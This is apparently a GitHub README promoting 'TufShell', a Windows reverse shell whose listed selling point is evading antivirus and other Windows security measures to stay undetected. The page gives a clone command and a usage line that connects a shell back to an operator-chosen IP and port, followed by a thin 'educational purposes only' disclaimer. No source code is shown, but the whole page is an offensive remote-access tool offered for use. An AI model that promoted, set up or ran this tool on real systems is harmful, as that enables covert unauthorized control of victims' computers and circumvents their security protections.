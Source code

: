# TufShell - Reverse Shell
![Nimetön(5)](https://user-images.githubusercontent.com/112339903/228006692-dbb18207-ad2b-4e0c-827f-77bc5c1e99a1.png)
<h1>What is it?</h1>
TufShell is a Windows Reverse Shell that is designed to bypass Windows security measures and stay undetected. It has been thoroughly tested on Windows 11, but it isn't guaranteed to work on all versions of Windows. Leave a comment if it worked on different machine.
![reverse_shell](https://user-images.githubusercontent.com/112339903/228022732-4b495526-082b-4f17-853f-d92f47dd3f9c.png)
<h2>Features</h2>
    <strong>Undetected</strong>: TufShell is designed to stay undetected by Windows security measures, including antivirus software.<br>
    <strong>Easy to Use</strong>: TufShell is designed to be easy to use, with a simple command line interface.<br>
    <strong>Reliable</strong>: TufShell is a reliable reverse shell that works every time.
    <strong>Cross-platform</strong>: TufShell Server is cross-platform, which means that it can be used on both Windows and Linux systems.
<h2>Installation</h2>
git clone https://github.com/TFLER/tufshell.git
<h2>Usage</h2>
python tufshell.py --ip YOUR_IP --port PORT
<h2>Disclaimer</h2>

This tool is designed for educational purposes only. The author of this tool is not responsible for any damage caused by the use of this tool. It is the user's responsibility to use this tool ethically and in compliance with all applicable laws and regulations. Keep in mind that TufShell is still under development.
